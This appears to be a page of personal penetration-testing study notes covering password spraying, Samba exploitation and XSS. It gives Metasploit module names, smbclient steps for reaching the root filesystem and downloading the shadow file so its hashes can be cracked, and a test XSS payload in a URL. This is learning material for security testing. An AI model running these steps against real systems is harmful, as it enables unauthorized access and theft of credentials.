 ----

# Network Exploitation

## Password Attacks

Essentially a reverse dictionary attack. Use a single password amongst thousands-millions of users. Prevents account lock out.

Can utilize tools like:

The Harvester 

These tools can extract useful data from organizations. Especially usernames and username formats.

## Samba Exploits

> nmap --script smb-os-discovery -p445 <IP-address>

> metasploit - "multi/samba/usermap_script"

## Samba symlink traversal

1. 
> metasploit admin/smb/samba_symlink_traversal 

2.
> smbclient \\\\<IP-address>\\tmp -N

3. Change to the root directory if there

> cd rootfhs

> cd etc

> get <filename> "Try shadow so hashes can be cracked"

BONUS

Can use tar with smb filesharing to minimize file downloads. Or combine them all into one tar ball 

> cd etc

> tar c ../tmp/allfiles.tar *

# Web Application Enumeration and Tool usage

## XSS

Place a JS test script in place of a URL query string

```
http://victim.site/welcome.php?name=</h1><script>alert('This is a test XSS');</script>
```
